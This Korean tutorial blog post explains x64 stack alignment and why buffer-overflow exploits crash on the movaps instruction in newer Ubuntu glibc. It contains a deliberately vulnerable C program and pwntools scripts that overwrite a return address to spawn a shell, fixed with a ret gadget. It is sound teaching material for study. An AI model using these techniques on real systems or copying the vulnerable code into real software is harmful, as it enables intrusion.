




# 머릿말


비밀 프로젝트( 아직 비밀, 쉿! ) 때문에 Ubuntu 20.04에서 몇 가지 테스트를 하다가 처음 보는 에러에 당황했습니다. `do_system+364: movaps` 인스트럭션에서 Segmentation Fault가 발생하더라고요.


알아보니까 Ubuntu 18.04부터 `do_system()`에 `movaps`인스트럭션이 하나 추가됐습니다. 조금 뒤에 자세히 설명하겠지만, x64 리눅스에선 16바이트로 stack alignment를 지켜야 합니다. stack alignment가 깨져있으면 이 인스트럭션을 실행하다 Segmentation Fault가 뜹니다.

이놈 때문에 18.04 이전 버전에서 익스 되는 BOF 공격코드가 18.04 이후 버전에서는 사용할 수 없는 경우도 있다고 합니다.


*故 Fabu1ous의 네이버 블로그 (2018.10 ~ 2019.12)*

지금까지 푼 포너블 문제만 백몇 개쯤 되고 수없이 많은 `system("/bin/sh")`을 호출해 봤는데 어째서 이 사실을 이제야 알게 된 거지?


작년(2019) 크리스마스 CTF에서 단순 ROP문제를 익스 못해서 화났던 기억이 머리를 스치고 지나갔습니다. 분명 로컬에선 익스가 되던 게 리모트 익스가 안돼서 팀원에게 코드를 넘겨주고 다른 문제 보러 갔었죠. 그때 못 풀었던 ROP문제는 solo_test란 문제였는데 그때 로컬 환경이 우분투 16.04였습니다... 후...

대회 끝나고 바로 며칠 뒤에 이 주제에 대한 라업이 하나 올라왔는데 1년이 지난 지금에서야 찾아본 제 자신이 너무 밉네요. ROP문제라고 대수롭지 않게 그냥 넘겨버린 것에 반성하며 지금이라도 공부해봅시다.

> 늦었다고 생각할 때가 진짜 너무 늦었다 -박명수-


# x64 Stack Alignment

stack alignment는 stack의 top이 16의 배수로 유지된 상태며 메모리의 access cycle을 최소한으로 줄이기 위해 사용합니다. ( CS를 공부하다가 "왜?"라는 질문을 던지면 십중팔구 "효율"이라는 대답이 돌아옴, 더 자세한 건 직접 찾아보시길 ) 그리고 이 stack alignment를 유지하기 위해 RSP의 위치가 정해지는 규칙이 있습니다.




Linux 64 [ABI](https://software.intel.com/sites/default/files/article/402129/mpx-linux64-abi.pdf)( Application binary interface )에 따르면 프로그램의 흐름( control )이 함수의 entry로 옮겨지는 시점에선 스택 포인터(rsp)+8이 항상 16의 배수여야 합니다.


방금 전엔 RSP를 16의 배수로 유지하는 게 stack alignment라 해놓고 갑자기 RSP+8이 16의 배수라니, 뭐라는 거야?

무슨 소린지 모르겠죠? 설명이 뭐 같이 쓰여있어서 그렇지 사실 아주 간단합니다.


```c
// test.c

#include<stdio.h>

void hello()
{
	printf("hello stack alignment\\n");
}

int main()
{
	hello();
	
	return 0;
}
```

```bash
$ gcc -o test test.c -no-pie
$ gdb -q test
```

간단한 예제를 통해 확인해봅시다. 디버깅할 때 거슬리니 PIE는 해제하고 컴파일하세요. 저는 Ubuntu 20.04와 glibc-2.31를 사용했습니다.


```bash
pwndbg> bp main
```


```bash
pwndbg> r
```

정상적으로 호출된 `main()` 함수의 entry point입니다. 아직 프롤로그를 실행하기 전이니 RSP+8은 16의 배수겠죠?

RSP : `0x7fffffffe038`

RSP+8 : `0x7fffffffe040`

위 스크린샷을 보면 RSP+8은 `0x7fffffffe040`이므로 16의 배수가 맞습니다.


그럼 다들 알다시피 call 인스트럭션으로 함수를 호출하면 stack에 return address를 push 하니까 call 인스트럭션을 실행하기 직전엔 RSP가 16의 배수겠죠?

RSP : `0x7fffffffe030`


그리고 함수 프롤로그에서 `push rbp`를 하니까 rbp는 항상 16의 배수겠네요?

RSP : `0x7ffffffffdfe0`


대충 정리해보면 stack align을 지키면서 함수를 호출하는 흐름은 다음과 같습니다.

1. call 실행 직전 RSP는 16의 배수 ( stack align O )
2. 함수의 entry point에선 RSP+8이 16의 배수 ( stack align X )
3. 함수의 프롤로그 실행 후 RSP는 16의 배수 ( stack align O )
4. RBP는 항상 16의 배수 ( stack align O )

사실, 함수를 호출할 때 2번 과정에서 잠시 stack align이 깨지고 3번에서 다시 stack align이 맞춰집니다. 여기서 2번만 똑 떼서 "이 것만 지키시면 stack align입니다."라고 설명을 써놔서 헷갈리는 겁니다. 이래도 이해 안 되시면 4번만 기억하세요. 4번만 신경 써줘도 공격 코드를 짜는데 아무 지장이 없을 겁니다. 더 자세한 설명은 조금 이따 하겠습니다.

# MOVAPS


이 규칙을 꼭 지켜야 하는가? 물론 아닙니다. 방금 전에도 설명했듯이 유연하게 어겼다가 지켰다가 할 수 있습니다. 그리고 stack alignment는 효율을 높이기 위해 유지한다고도 설명했다시피 지키지 않아도 프로그램이 동작하는데 아무 문제없습니다. 다만 효율이 좀 떨어질 뿐... 물론 예외가 존재하는데 몇몇 intel/AMD cpu에서 SSE instruction을 실행할 때  stack alignment가 깨져있으면 segmentation fault가 발생합니다.


그리고 [MOVAPS](http://qcd.phys.cmu.edu/QCDcluster/intel/vtune/reference/vc181.htm)가 바로 SSE intruction 중 하나입니다. XMM 레지스터끼리 혹은 XMM 레지스터와 메모리 사이에서 double quadword( 16byte ) 크기의 데이터를 옮기는 인스트럭션인데, 메모리의 align 여부를 강제합니다.

```c
<do_system+364> movaps xmmword ptr [rsp + 0x50], xmm0
```

XMM 레지스터와 메모리 사이에서 데이터를 옮길 때, 메모리의 align이 깨져있으면 general protection( #GP / SIGSEGV ) fault를 발생시킵니다. 그리고 Ubuntu 18.04부터 이 movaps 인스트럭션이 `do_system()`을 포함한 여러 멀티미디어 오퍼레이션에 추가되어 exploit을 작성할 때 stack alignment를 신경 써야 합니다.

# JMP vs CALL vs RET

그래서 Exploit이랑 stack align이 깨지는 거랑 무슨 상관인데? 그래서 왜 16.04에선 쉘을 띄우던 공격 코드가 18.04부턴 작동 안 하는 건데? 이거를 이해하려면 우선 control intsruction들의 차이를 알아야 합니다. 생각보다 모르는 사람이 많더라고... 각 인스트럭션마다 스택의 변화, 더 자세히 말하자면 RSP의 변화가 어떤지 알아야 합니다.

## 1. JMP

> Transfers program control to a different point in the instruction stream **without** recording **return information**.

단순히 프로그램의 흐름을 옮김. 인용구를 보면 알겠지만 리턴 정보를 저장하지 않습니다. jmp 인스트럭션으로 인한 스택의 변화는 없다고 생각하시면 됩니다.

## 2. CALL

반면 call 인스트럭션은 프로그램의 흐름을 옮기는 것이 아니라 subroutine에 잠시 들렀다가 돌아오는 것이기 때문에 리턴 정보를 저장합니다. 그리고 그 리턴 정보는 stack에 push 하기 때문에 call 인스트럭션을 실행한 뒤엔 RSP의 값이 8만큼 감소합니다.



RSP : `0x7fffffffe030`

call hello 인스트럭션이 실행되면 <main+18>을 stack에 push 하겠죠?


RSP : `0x7fffffffe028`

따라서 정상적으로 호출된 함수의 entry point에선 RSP+8이 16의 배수가 되는 겁니다. 여기서 꼭 기억하셔야 할 것이 Call을 실행한 직후엔 일시적으로 stack align이 깨진다는 겁니다.

## 3. RET

```c
pop rip
jmp rip
```

call을 설명할 때 sub routine에 잠시 들렀다 돌아간다고 했습니다. 물론 이 모든 동작을 call이 다 하진 않고, 원래의 인스트럭션 스트림으로 다시 돌아가는 동작은  ret이 대신해줍니다.

ret은 두 인스트럭션을 하나로 합쳐 놨다고 생각하시면 되는데, call이 저장해놓은 리턴 정보를 스택에서 빼내어 jmp 합니다. 즉, RSP값이 8만큼 증가한다는 뜻입니다.

!

RSP : `0x7fffffffe028`

위 스크린샷은 ret을 실행하기 직전의 상황입니다. RSP 값을 보면 아시겠지만 ret을 실행하기 직전엔 stack align이 깨져있습니다. 이는 함수 에필로그의 leave 명령어 혹은 pop rbp의 결과겠죠?


RSP : `0x7fffffffe030`

그리고 ret을 실행하면 RSP가 8만큼 증가하고 stack align이 다시 맞춰집니다.

## 정리

- call : RSP-=8 → 일시적으로 stack align을 깸
- ret : RSP+=8 → leave 명령어로 깨진 stack align을 다시 맞춤

# Abnormal call

자 이쯤 되면 대충 눈치채셨을 거 같은데, BOF공격을 할 때 ret으로 함수를 호출하죠? shellcode를 실행하는 건 논외로 치고, ret2libc( RTL )나 ROP로 BOF exploit을 하게 될 텐데 call이 아니라 ret으로 함수를 호출하기 때문에 stack alignment가 깨지게 되는 겁니다.

## vuln.c

```c
// vuln.c

#include<stdlib.h>

void win()
{
	system("/bin/sh");
}

int main()
{
	char buf[16];
	
	read(0, buf, 128);
	
	return 0;
}
$ gcc -o vuln vuln.c -no-pie -fno-stack-protector
```

정말 간단한 BOF 예제로 확인해보죠. vuln.c를 작성하고 컴파일해줍시다. BOF를 할 거니까 당연히 stack canary는 해제해주세요.

## bof.py

```python
# bof.py

from pwn import*

p = process('./vuln')

gdb.attach(p)

win = 0x401156

payload = b'A'*24 + p64(win)

p.sendline(payload)
p.interactive()
$ python3 bof.py
```

`main()`의 return 주소를 `win()` 함수의 entry point로 덮어쓰는 공격 코드입니다.

## Debug


```bash
pwndbg> bp main+45
pwndbg> c
```

`main()`의 ret에 break point를 걸고 `win()` 함수가 호출된 후의 stack 상황을 봅시다.


```bash
pwndbg> ni
```

ret으로 함수 `win()`의 entry point에 도달하면

프롤로그를 실행하고 나면 stack alignment가 깨지게 됩니다.


컴퓨터는 stack이 항상 align 돼있다고 가정하고 그 상태를 유지하려고 합니다. 즉, `win()`에서 깨져버린 alignment를 깨진 상태로 유지하게 되고, `win()` 이후에 호출되는 함수들의 stack alignment는 깨진 상태가 됩니다.



그리고 결국 `do_system()`을 실행하다 movaps에 걸려 segmentation fault를 띄우고 exploit은 실패하게 됩니다.

# RET sled

지금까지 설명한 내용을 이해하셨다면 앞으로 공격 코드를 짜실 때 아무 문제없을 거라 생각합니다. 그래도 여기서 글을 마무리 짓긴 애매하니 해결 방법을 알아보죠.

```python
#bof2.py

from pwn import*

p = process('./vuln')

win = 0x401156
ret = 0x40119a # ret sled

payload = b'A'*24 + p64(ret) + p64(win)

p.sendline(payload)
p.interactive()
```


```bash
$ python3 bof2.py
```

네. 정말 별거 없습니다. ret 가젯을 하나 더 추가해서 RSP의 위치를 8만큼 조정해주면 BOF 공격을 할 때 stack alignment를 유지할 수 있습니다. 너무 단순하고 당연해서 더 설명할 게 없네요.


짠!

# 마치며

RET sled 말고도 stack alignment를 유지하면서 ROP 하는 방법은 많습니다. 사실 한 가지 방법 더 보여드리려고 했는데 그건 endbr64랑 CET까지 설명해야 돼서 기회가 되면 따로 글을 작성하겠습니다.

